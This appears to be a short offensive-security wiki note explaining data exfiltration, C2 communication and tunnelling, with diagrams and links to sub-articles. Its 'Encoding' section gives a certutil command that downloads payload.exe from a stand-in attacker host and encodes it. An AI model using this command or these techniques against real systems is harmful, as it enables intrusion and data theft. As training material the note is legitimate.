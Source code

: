 # Data Exfiltration 

This article will attempt to define Data Exfiltration and link futher articles to concepts and methods related to the general concept of Data Exfiltration. Data Exfiltration is non-tradition approach for copying and transferring data from a compromised system to a attacker controlled machine. The means for which the Data is Exfiltrated is delibrately obsucated by trying to emulate normal network activity. For regular file transfers see [[File-Transfers]], [[Linux-File-Transfers]] and [[Windows-File-Transfers]]


## Introduction

Data Exfiltration is is a post-compromise process and ultimate stage of [[Lockhead-Martin-Cyber-Kill-Chain]], that the act of taking an unauthorized copy of sensitive data and moving it from the inside of an organization's network to the outside. The term Data Exfiltration also refer the methods of evasion and stealth used to evade security and hide malicious activities. The Data that is exfiltrated is valuable in some way. Other than to steal data the use cases also include C2 communications(see [[Introduction-To-Command-And-Control-Frameworks]]) and tunneling - see [[Port-Redirection-And-Tunnelling]]


#### Tradition Data Exfiltration Diagram

All traffic is only one direction:
```
# Data Exfiltration
Attacker -> Attack Server <- <- Target Network Security <- Target Network Data Stores
							<- - - - - - - - DATA  
```

#### C2 Communication Diagram

C2 frameworks provides standard and non-traditional protocols to send commands and recieve responses from establish a two way communication channel between Attacker and C2 Beacon.
```
# C2 Communication
						  <- <- Outbound   			    <- <- Outbound
Attacker -> Attack Server -- -- Target Network Security -- C2 Beacon on Target Network 
						  -> -> Inbound					-> -> Inbound
```

#### Tunneling Diagram

Attacker uses data exfiltration technique to establish a communication channel acting like a tunnel to between a victim and attacker's machine to allow attack access the entire network.
```
# Tunneling
	___Represents_the_Attacker's_communication_really_it's_going_through_tunnel___
	|                                                                             |
	|					  <- <- Tunnel   			    <- <- Tunnel              |
Attacker -> Attack Server -- -- Target Network Security -- C2 Beacon on Target Network 
						  -> -> Tunnel					-> -> Tunnel
```

## Methods of Obsucation

#### Encoding
Certutil can both download and encode
```powershell
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
certutil -encode payload.exe Encoded-payload.txt
```


#### Archiving

## Data Exfiltration
[[Data-Exfiltration-Over-TCP-Sockets]]
[[Data-Exfiltration-Over-SSH]]
[[Data-Exfiltration-Over-HTTP-and-HTTPS]]
[[Data-Exfiltration-Over-ICMP]]




## References

[THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt)